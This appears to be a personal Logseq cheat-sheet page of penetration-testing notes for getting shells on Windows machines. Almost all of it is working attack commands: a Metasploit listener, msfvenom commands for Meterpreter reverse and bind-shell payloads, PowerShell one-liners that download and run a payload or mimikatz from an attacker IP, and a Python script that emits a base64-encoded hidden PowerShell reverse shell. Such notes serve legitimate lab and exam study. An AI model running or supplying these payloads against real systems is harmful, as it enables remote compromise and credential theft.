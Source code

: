 public:: true

- Meterpreter
	- Start the listener
	  ```bash
	  msfconsole -q -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.45.183;set LPORT 8444;run;"
	  ```
	- Prepare the agent in powershell
		- ```bash
		  msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.183 LPORT=4444 -f psh > meterpreter.ps1
		  ```
		- Using `-f psh` generates a powershell script which perform an *in-memory injection* (Remote Process Memory Injection) and the specified payload
		  logseq.order-list-type:: number
		- Using `-f powershell` only generates the payload
		  logseq.order-list-type:: number
- Download and execute from powershell
	- ```powershell
	  powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.183:8000/meterpreter.ps1');meterpreter"
	  ```
- Download to disk with powershell
	- ```powershell
	  powershell -c "Invoke-WebRequest 'http://192.168.45.183:8000/mimikatz.exe' -OutFile 'mimikatz.exe'"
	  
	  # OR
	  
	  Invoke-WebRequest "http://192.168.45.183:8000/mimikatz.exe" -OutFile "mimikatz.exe"
	  ```
- Bind Shell
	- `cmd` bind shell
	  ```bash
	  msfvenom -p windows/x64/shell_bind_tcp PORT=4444 -f exe > bind_cmd_4444.exe
	  ```
		- I suggest to always use `cmd` over `powershell` as initial shell because some interactive tools (like [[Mimikatz]] ) might misbehave on powershell. Then you can always upgrade to powershell by typing `powershell`.
	- `powershell` bind shell
	  ```bash
	  msfvenom -p windows/x64/powershell_bind_tcp PORT=4444 -f exe > bind_ps_4444.exe
	  ```
- `reverse-shell-windows.py`
	- ```python
	  #!/usr/bin/python3
	  #
	  # Usage: python3 reverse-shell-windows.py YOUR_IP 4444
	  #
	  
	  import sys
	  import base64
	  
	  payload = '$client = New-Object System.Net.Sockets.TCPClient("' + sys.argv[1] + '",' + sys.argv[2] + ');$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0,$bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 |Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
	  
	  print(payload)
	  
	  print("")
	  
	  cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
	  
	  print(cmd)
	  
	  ```
